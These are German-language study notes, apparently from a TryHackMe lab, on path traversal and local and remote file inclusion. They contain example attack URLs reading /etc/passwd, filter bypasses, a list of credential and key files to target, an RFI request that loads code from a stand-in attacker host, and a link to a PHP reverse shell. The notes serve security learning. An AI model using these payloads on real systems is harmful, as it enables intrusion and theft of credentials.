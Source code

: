 ### Was Das?
Generell werden File Inclusions aufgeteilt in Local und Remote File Inclusions (LFI und RFI) und generelles Directory Traversal. 

Die Lücken können Auftreten Da Websites Teilweise so geschrieben sind das sie z.B. Bilder, statischen Text usw., über Parameter anfordern. Parameter sind Abfrageparameter-Strings, die an die URL angehängt werden und zum Abrufen von Daten oder zur Durchführung von Aktionen auf der Grundlage von Benutzereingaben verwendet werden können. Im folgenden Diagramm sind die wesentlichen Bestandteile einer URL dargestellt.

https://imgur.com/ar0UxEZ

Das Hauptproblem bei diesen Schwachstellen ist die Eingabevalidierung, bei der die Benutzereingaben nicht bereinigt oder validiert werden und der Benutzer sie kontrolliert. Wenn die Eingabe nicht validiert wird, kann der Benutzer jede beliebige Eingabe an die Funktion übergeben, was die Sicherheitslücke verursacht. 


### Path Traversal
Auch bekannt als Directory Traversal. Eine Web-Sicherheitslücke ermöglicht es einem Angreifer, Betriebssystem-Ressourcen, wie z. B. lokale Dateien auf dem Server, auf dem eine Anwendung läuft, zu lesen. Der Angreifer nutzt diese Sicherheitslücke aus, indem er die URL der Webanwendung manipuliert und missbraucht, um Dateien oder Verzeichnisse zu finden und darauf zuzugreifen, die außerhalb des Stammverzeichnisses der Anwendung gespeichert sind.

###### dot dot Slash angriff
nutzt die funktion das mit jedem ../ das Directory eins nach oben gemoved wird quasi wie cd..
Wenn der Angreifer einen Eintrittspunkt wie zum Beispiel ein ***get.php?file=*** darauf hin kann der Angreifer etwas in diese richtung schicken 

```
http://webapp.thm/get.php?file=../../../../etc/passwd
```

Angenommen, es gibt keine Eingabeüberprüfung, und statt auf die PDF-Dateien unter /var/www/app/CVs zuzugreifen, ruft die Webanwendung Dateien aus anderen Verzeichnissen ab, in diesem Fall /etc/passwd. Jeder .. Eintrag bewegt sich um ein Verzeichnis, bis er das Stammverzeichnis / erreicht. Dann wechselt er das Verzeichnis zu /etc und liest von dort die Datei passwd.

Beispiel Bild: 
https://imgur.com/szBSssW

Intressant Locations an die man Navigieren kann

|   |   |
|---|---|
|**Location**|**Description**|
|`/etc/issue`|contains a message or system identification to be printed before the login prompt.|
|`/etc/profile`|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|`/proc/version`|specifies the version of the Linux kernel|
|`etc/passwd`|has all registered users that have access to a system|
|`/etc/shadow`|contains information about the system's users' passwords|
|`/root/.bash_history`|contains the history commands for `root` user|
|`/var/log/dmessage`|contains global system messages, including the messages that are logged during system startup|
|`/var/mail/root`|all emails for `root` user|
|`/root/.ssh/id_rsa`|Private SSH keys for a root or any known valid user on the server|
|`/var/log/apache2/access.log`|the accessed requests for `Apache` web server|
|`C:\boot.ini`|contains the boot options for computers with BIOS firmware|


#### Current Directory Trick
Wird Genutzt wenn der Developer begriffe/Pfade gefiltert hat wie z.B. /etc/passwd
Was man jetzt machen kann ist der "Current Directory Trick" dieser funktioniert ähnlich wie "cd". Während cd.. uns ein Directory nach oben bringt bleibt cd. im selben Directory 
Bsp.:
http://webapp.thm/index.php?lang=/etc/passwd/.

### LFI

Kann wie Path Traversal die dot dot Slash methode Benutzen. Kann aber auch schon jenachdem einfachere Variante nutzen 


wie z.B. die gesuchte Datei an die URL anheften. Dies funktioniert wenn im Query code kein Direcory Spezifiziert ist. 
Bsp.
http://10.10.208.102//lab1.php?file=/etc/passwd


Wenn ein Directory Spezifiziert ist kann die Dot Dot Slash methode verwendet werden. 
Bsp.:
http://10.10.208.102/lab2.php?file=../../../../etc/passwd


Vorgehen beim Angreifen einer "Black Box"
Bsp.:
Entry Point 
http://webapp.thm/index.php?lang=EN
Beim eingeben eines Inputs kommt diese Fehlermeldung
```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
Was Erfahren wir aus der Meldung? 
-> Da wir THM als input genommen haben erfahren wir das es eine Include Funktion gibt (So im etwa: include(languages/THM.php);)
-> Wir sehen das der Input via PHP gehandelt wird
-> Der Pfad der Applikation ist /var/www/html/THM-4/

	-> Mögliche Angriffmethodik ist Dot Dot Slash 
	http://webapp.thm/index.php?lang=../../../../etc/passwd

Fehlermeldung aus dem Befehl:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
Rückschlüsse aus der Meldung: 
-> Anscheinend sind wir aus dem Verzeichniss raus gekommen allerdings wird an den input noch .php gehangen
-> das .php kann via eines NULLBYTES entfernt werden (%00)
- Modifizierte Angriffsmethodik:
- http://webapp.thm/index.php?lang=../../../../etc/passwd%00
**Note:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

#### Was Tun wenn ../ durch durch Leerzeichen Ersetzt?

Einfach da nur der erste Substring durch PHP ersetzt wird kann man das wie Folgt bypassen: 
 ....//....//....//....//....//etc/passwd
 Bildliche Erklärung:
 https://imgur.com/aYrz6QC

#### Was tun wenn der Dev die Anfrage Forced durch ein Spezielles Directory laufen zu lassen?
Beispielpfad:
http://webapp.thm/index.php?lang=languages/EN.php
kann wie Folgt ausgehebelt werden: 
http://webapp.thm/index.php?lang=languages/../../../../../etc/passwd


### RFI -Remote File Incluson
Remote File Inclusion (RFI) ist eine Technik zur Einbindung von Remote Files in eine anfällige Anwendung. Wie LFI tritt RFI auf, wenn Benutzereingaben nicht ordnungsgemäß bereinigt werden, so dass ein Angreifer eine externe URL in die Include-Funktion einfügen kann. Eine Voraussetzung für RFI ist, dass die Option allow_url_fopen aktiviert sein muss.
Das Risiko eines RFI-Angriffs ist höher als das eines LFI-Angriffs, da RFI-Schwachstellen es einem Angreifer ermöglichen, Remote Command Execution (RCE) auf dem Server zu erlangen. 

Weitere Folgen eines erfolgreichen RFI-Angriffs sind:

- Offenlegung sensibler Informationen
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

Bildliches Beispiel
https://imgur.com/7JxRw1l

Schriftliches Beispiel 
Eine Website mit der URL http://webapp.thm/ hat eine Input möglichkeit für Sprachpakete die nicht korrekt gefiltert wird. 
Wir hosten einen Server der eine datei namens cmd.txt hostet (URL  http://attacker.thm/cmd.txt)
Dem Zielserver senden wir die Anfrage "http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt"
Dadurch das der Input vom Ziel nicht validiert wird geht die URL in die Include Funktion und sendet damit eine GET Request an unseren server und fragt die cmd.txt ab. 
Wenn die cmd.txt erfolgreich abgerufen ist führt die PHP Funktion diese auch direkt aus und wir bekommen die rückmeldung das dass script lief 

Hier kann man auch Beispielhaft .php Reverseshells nutzen 
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
